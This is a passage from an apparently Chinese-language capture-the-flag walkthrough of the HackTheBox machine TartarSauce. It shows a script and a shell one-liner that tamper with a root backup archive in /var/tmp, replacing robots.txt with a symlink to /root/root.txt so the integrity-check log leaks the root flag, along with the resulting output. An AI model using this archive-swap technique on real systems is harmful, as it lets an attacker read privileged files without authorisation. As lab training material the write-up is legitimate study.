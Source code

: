     # wait for results
    echo "Waiting for new logs..."
    tail -f /var/backups/onuma_backup_error.txt
    

现在，将其上传到目标并运行它。我将它命名为opsec：`.b.sh`

    onuma@TartarSauce:/dev/shm$ ./.b.sh
    ./.b.sh
    Waiting for archive filename to change...
    File changed... copying here
    Waiting for new logs...
    ------------------------------------------------------------------------
    Integrity Check Error in backup last ran :  Thu Oct 18 19:42:26 EDT 2018
    ------------------------------------------------------------------------
    /var/tmp/.02af91fa0edeab13fce3962cddc45efefc22da67
    diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
    1,7c1
    < User-agent: *
    < Disallow: /webservices/tar/tar/source/
    < Disallow: /webservices/monstra-3.0.4/
    < Disallow: /webservices/easy-file-uploader/
    < Disallow: /webservices/developmental/
    < Disallow: /webservices/phpmyadmin/
    <
    ---
    > e79abdab...
    

还有旗帜。

作为一行，它看起来像这样：

    onuma@TartarSauce:/dev/shm$ cd /dev/shm; start=$(find /var/tmp -maxdepth 1 -type f -name ".*"); cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); while [ "$start" == "$cur" -o "$cur" == "" ] ; do sleep 10; cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); done; echo "File changed... copying here"; cp $cur .; fn=$(echo $cur | cut -d'/' -f4); tar -zxf $fn; rm var/www/html/robots.txt; ln -s /root/root.txt var/www/html/robots.txt; rm $fn; tar czf $fn var; mv $fn $cur; rm $fn; rm -rf var
    File changed... copying here
    
    onuma@TartarSauce: cat /var/backups/onuma_backup_error.txt
    ...
    ------------------------------------------------------------------------
    Integrity Check Error in backup last ran :  Wed May 30 09:38:30 EDT 2018
    ------------------------------------------------------------------------
    /var/tmp/.154b63306d83a3c63fb5d432d97be7807b521909
    diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
    1,7c1
    < User-agent: *
    < Disallow: /webservices/tar/tar/source/
    < Disallow: /webservices/monstra-3.0.4/
    < Disallow: /webservices/easy-file-uploader/
    < Disallow: /webservices/developmental/
    < Disallow: /webservices/phpmyadmin/
    <
    ---
    > e79abdab...
    Only in /var/www/html/webservices/monstra-3.0.4/public/uploads: .empty
    